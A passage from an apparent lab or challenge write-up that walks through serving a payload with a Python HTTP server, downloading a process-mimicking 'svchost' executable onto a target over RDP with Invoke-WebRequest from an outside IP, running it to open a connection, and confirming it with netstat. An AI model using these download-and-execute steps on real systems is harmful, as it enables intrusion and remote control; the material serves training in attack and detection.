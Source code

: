 ```sh
python3 -m http.server 9999
```

2) Download payload from target's machine (RDP session from Kali Linux).

```powershell
Invoke-WebRequest -Uri http://128.199.50.62:9999/svchost-angieyuliananaranjo2751.exe
```

![](/assets/images/mydfir-challenge/invoke-webrequest-payload.png) 

3) Run payload to establish connection.

![](/assets/images/mydfir-challenge/run-payload.png) 

4) Check that the connection has been established.

```powershell
netstat -anob
```

![](/assets/images/mydfir-challenge/established-connection.png) 
